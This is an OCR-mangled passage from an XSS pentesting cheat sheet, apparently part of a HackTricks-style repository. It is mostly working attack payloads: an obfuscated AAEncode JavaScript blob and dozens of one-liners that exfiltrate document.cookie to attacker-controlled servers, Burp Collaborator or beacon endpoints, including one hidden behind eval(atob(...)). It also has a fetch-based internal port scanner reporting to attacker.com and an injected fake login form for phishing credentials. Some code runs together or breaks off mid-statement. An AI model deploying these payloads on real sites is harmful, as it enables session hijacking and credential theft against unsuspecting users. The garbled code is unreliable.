 \(ﾟДﾟ\) =\(ﾟΘﾟ\)= \(o^\_^o\)/ \(o^\_^o\);\(ﾟДﾟ\)={ﾟΘﾟ: '\_' ,ﾟωﾟﾉ : \(\(ﾟωﾟﾉ==3\) +'\_'\) \[ﾟΘﾟ\] ,ﾟｰﾟﾉ :\(ﾟωﾟﾉ+ '\_'\)\[o^\_^o -\(ﾟΘﾟ\)\] ,ﾟДﾟﾉ:\(\(ﾟｰﾟ==3\) +'\_'\)\[ﾟｰﾟ\] }; \(ﾟДﾟ\) \[ﾟΘﾟ\] =\(\(ﾟωﾟﾉ==3\) +'\_'\) \[c^\_^o\];\(ﾟДﾟ\) \['c'\] = \(\(ﾟДﾟ\)+'\_'\) \[ \(ﾟｰﾟ\)+\(ﾟｰﾟ\)-\(ﾟΘﾟ\) \];\(ﾟДﾟ\) \['o'\] = \(\(ﾟДﾟ\)+'\_'\) \[ﾟΘﾟ\];\(ﾟoﾟ\)=\(ﾟДﾟ\) \['c'\]+\(ﾟДﾟ\) \['o'\]+\(ﾟωﾟﾉ +'\_'\)\[ﾟΘﾟ\]+ \(\(ﾟωﾟﾉ==3\) +'\_'\) \[ﾟｰﾟ\] + \(\(ﾟДﾟ\) +'\_'\) \[\(ﾟｰﾟ\)+\(ﾟｰﾟ\)\]+ \(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[\(ﾟｰﾟ\) - \(ﾟΘﾟ\)\]+\(ﾟДﾟ\) \['c'\]+\(\(ﾟДﾟ\)+'\_'\) \[\(ﾟｰﾟ\)+\(ﾟｰﾟ\)\]+ \(ﾟДﾟ\) \['o'\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\];\(ﾟДﾟ\) \['\_'\] =\(o^\_^o\) \[ﾟoﾟ\] \[ﾟoﾟ\];\(ﾟεﾟ\)=\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+ \(ﾟДﾟ\) .ﾟДﾟﾉ+\(\(ﾟДﾟ\)+'\_'\) \[\(ﾟｰﾟ\) + \(ﾟｰﾟ\)\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[o^\_^o -ﾟΘﾟ\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+ \(ﾟωﾟﾉ +'\_'\) \[ﾟΘﾟ\]; \(ﾟｰﾟ\)+=\(ﾟΘﾟ\); \(ﾟДﾟ\)\[ﾟεﾟ\]='\\'; \(ﾟДﾟ\).ﾟΘﾟﾉ=\(ﾟДﾟ+ ﾟｰﾟ\)\[o^\_^o -\(ﾟΘﾟ\)\];\(oﾟｰﾟo\)=\(ﾟωﾟﾉ +'\_'\)\[c^\_^o\];\(ﾟДﾟ\) \[ﾟoﾟ\]='\"';\(ﾟДﾟ\) \['\_'\] \( \(ﾟДﾟ\) \['\_'\] \(ﾟεﾟ+\(ﾟДﾟ\)\[ﾟoﾟ\]+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟΘﾟ\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(\(ﾟｰﾟ\) + \(o^\_^o\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟΘﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(o^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(o^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟoﾟ\]\) \(ﾟΘﾟ\)\) \('\_'\); \`\`\` \#\# XSS common payloads \#\#\# Retrieve Cookies \`\`\`javascript ![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/x)/?c="+document.cookie&gt; ![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/x)new Image\(\).src="http://&lt;IP&gt;/?c="+encodeURI\(document.cookie\);new Audio\(\).src="http://&lt;IP&gt;/?c="+escape\(document.cookie\);location.href = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookielocation = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.location = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.location.href = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.write\('&lt;img src="http://&lt;YOUR\_SERVER\_IP&gt;?c='+document.cookie+'" /&gt;'\)window.location.assign\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)window\['location'\]\['assign'\]\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)window\['location'\]\['href'\]\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)document.location=\["http://&lt;YOUR\_SERVER\_IP&gt;?c",document.cookie\].join\(\)var i=new Image\(\);i.src="http://&lt;YOUR\_SERVER\_IP&gt;/?c="+document.cookiewindow.location="https://&lt;SERVER\_IP&gt;/?c=".concat\(document.cookie\)var xhttp=new XMLHttpRequest\(\);xhttp.open\("GET", "http://&lt;SERVER\_IP&gt;/?c="%2Bdocument.cookie, true\);xhttp.send\(\);eval\(atob\('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'\)\);fetch\('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie}\);navigator.sendBeacon\('https://ssrftest.com/x/AAAAA',document.cookie\) \`\`\` {% hint style="info" %} You \*\*won't be able to access the cookies from JavaScript\*\* if the HTTPOnly flag is set in the cookie. But here you have \[some ways to bypass this protection\]\(../hacking-with-cookies.md\#httponly\) if you are lucky enough. {% endhint %} \#\#\# Port Scanner \\(fetch\\) \`\`\`javascript const checkPort = \(port\) =&gt; { fetch\(http://localhost:${port}, { mode: "no-cors" }\).then\(\(\) =&gt; { let img = document.createElement\("img"\); img.src = http://attacker.com/ping?port=${port}; }\); } for\(let i=0; i::placeholder { color:white; }document.write\("&lt;div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'&gt;&lt;form action='https://example.com/'&gt;&lt;p&gt;Your sesion has timed out, please login again:&lt;/p&gt;&lt;input style='width:100%;' type='text' placeholder='Username' /&gt;&lt;input style='width: 100%' type='password' placeholder='Password'/&gt;&lt;input type='submit' value='Login'&gt;&lt;/form&gt;&lt;p&gt;&lt;i&gt;This login box is presented using XSS as a proof-of-concept&lt;/i&gt;&lt;/p&gt;&lt;/div&gt;"\) \`\`\` \#\#\# Auto-fill passwords capture \`\`\`javascript **Username:&lt;/&gt;  
  Password:&lt;/&gt;  